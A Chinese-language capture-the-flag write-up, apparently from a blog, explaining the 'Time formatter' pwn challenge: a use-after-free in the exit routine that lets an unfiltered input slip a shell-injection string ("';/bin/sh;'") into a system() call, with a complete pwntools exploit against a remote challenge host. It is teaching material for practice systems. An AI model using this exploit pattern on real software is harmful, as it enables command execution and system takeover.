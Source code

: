 ```yaml
---
title: Time formatter
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
---
```


这应该算是一道堆题罢(doge)，虽然只是个非常简单的UAF

<!--more-->

首先查壳

![protect](./time_formatter/protect.png)

有个FORTIFY_SOURCE的对格式化字符串的保护

1. 包含%n的格式化字符串不能位于程序内存中的可写地址。

2. 当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。

扔进ida看看源码，又是菜单,看代码改函数名弄到想吐

简单解释一下这个程序的功能：
- set_format():会用strdup申请一个chunk来存放输入的字符串，之后会对进行字符串中的字符进行检查（只能有字母、%、空格、：、#、-、_、0、/、^），不满足条件则会被free掉，**若满足，则会将chunk指针赋值给一个bss段中的变量ptr**
- set_time():把你的输入写到一个固定的地方(没用)
- set_zone():会用strdup申请一个chunk来存放输入的字符串，**但是不像set_format()那样进行检查**，chunk指针会赋值给value
- print_time():如果ptr中有值，则会执行system(command)，command通过snprintf构造(**有漏洞**)
- my_exit():先free了ptr和value，再问你是不是真的要退出，却并没有让ptr和value=>null，也没有清空其中的内容

下面仔细看看值得注意的地方:

**1.print_time()中command的构造**
```c
__snprintf_chk(command,2048LL,1LL,2048LL,"/bin/date -d @%d +'%s'",(unsigned int)dword_602120,(const char *)ptr);
```
这是什么东西?

据说函数原型是这样的
```c
int snprintf(char *restrict buf, size_t n, const char * restrict  format[, arguement]);
//str为要写入的字符串；n为要写入的字符的最大数目，超过n会被截断；format为格式化字符串,arguement为格式化字符串的参数
```

虽然不知道为什么2048LL后面有个1L,2048LL，但可以知道的是，ptr就是格式化字符串的第二个参数，其内容会写入%s处，因此如果可以在这里写入/bin/sh就可以执行system("/bin/sh")了

但是也没这么容易，还有一些坑：
1. 前面已经有一条指令/bin/date ...了，要让shell执行ptr的指令（即一条语句执行两条指令），需要用到&&或;。由于&&需要前一条指令执行完才会执行第二条，而;则不需要，因此ptr中的内容要改为;/bin/sh
2. 还有另一个坑，在格式化字符串中是'%s'，%s外面是单引号，而要执行system("/bin/sh"),/bin/sh要在单引号外面，因此在前后加上单引号，并且为了不出错，后面也要加上一个;，最后变为';/bin/sh;'

**2.set_format()和set_zone()**

set_format()和set_zone()中都有一个函数strdup()
```c
extern char *strdup(char *s);
//功 能: 将字符串拷贝到新建的位置处
//strdup()在内部调用了malloc()为变量分配内存
```
set_format()可以将指针赋值给ptr;set_zone()可以将指针赋值给value

除此之外，在set_format()中拷贝完字符串后，会对字符串内容进行检查
```c
strcpy(accept, "%aAbBcCdDeFgGhHIjklmNnNpPrRsStTuUVwWxXyYzZ:-_/0^# ");// 字符只能在这个范围内
v3 = __readfsqword(0x28u);
return strspn(s, accept) == strlen(s);
```
这让我们不能直接通过set_format()将ptr指向';/bin/sh;'

**但是在set_zone()中并没有安全检查**

**3.my_exit()的迷之操作**

在my_exit中会先free了ptr和value，再问你是否要退出,**但是在free之后,ptr和value没有指向null，也没有清空其中的内容，也就是存在UAF**

利用过程：
1. 通过set_format()存放一个字符串（chunk长度要和';/bin/sh;'一致）
2. my_exit()实现free(ptr)
3. 通过set_zone()将原来的chunk申请回来，并利用其不进行检查的特点，写入';/bin/sh;'
4. 执行print_time()，getshell


exp:
```python
from pwn import*
elf=ELF("./formatter")
context.log_level='debug'
#p=process("./formatter")
p=remote('111.200.241.244',57516)

def set_format(fmt):
    p.recvuntil('> ')
    p.sendline('1')
    p.recv()
    p.sendline(fmt)

def set_zone(zone):
    p.recvuntil('> ')
    p.sendline('3')
    p.recv()
    p.sendline(zone)

def print_time():
    p.recvuntil('> ')
    p.sendline('4')
    #gdb.attach(p)
    p.interactive()

def my_exit():
    p.recvuntil('> ')
    p.sendline('5')
    p.recv()
    p.sendline('n')


set_format("aaaaaaaaaaa")
my_exit()
set_zone("';/bin/sh;'")
print_time()

```

